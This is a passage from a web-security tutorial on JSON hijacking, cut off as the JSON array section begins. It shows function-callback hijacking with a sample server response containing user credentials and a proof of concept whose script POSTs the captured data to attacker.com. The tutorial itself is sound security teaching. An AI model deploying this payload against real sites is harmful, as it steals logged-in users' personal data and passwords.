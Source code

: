 
### **1. Function Callback Hijacking**

#### **Scenario:**

A profile page dynamically loads user info like this:

```html
<script src="https://mdsec.net/auth/420/YourDetailsJson.ashx"></script>
```

**Server Response:**
Instead of raw HTML, the server sends a JavaScript *function call* with sensitive data inside:

```javascript
showUserInfo(
  [
    ['Name', 'Matthew Adamson'],
    ['Username', 'adammatt'],
    ['Password', '4nl1ub3'],
    ['Uid', '88'],
    ['Role', 'User']
  ]
);
```

#### **Why It’s Vulnerable:**

* The browser doesn’t care where the script came from — it runs it.
* If the attacker defines `showUserInfo()` **on their own site**, and then includes this script, your browser will execute it with your data while you’re logged in.

#### **Attack PoC:**

```html
<script>
  function showUserInfo(x) {
    // Attacker’s capture function
    fetch('https://attacker.com/log', {
      method: 'POST',
      body: JSON.stringify(x)
    });
  }
</script>
<script src="https://mdsec.net/auth/420/YourDetailsJson.ashx"></script>
```

**Result:** The victim’s data is sent to the attacker’s server.

---

### **2. JSON Array Hijacking (Old Browsers)**

#### **Scenario:**

Server just returns JSON (not wrapped in a function):
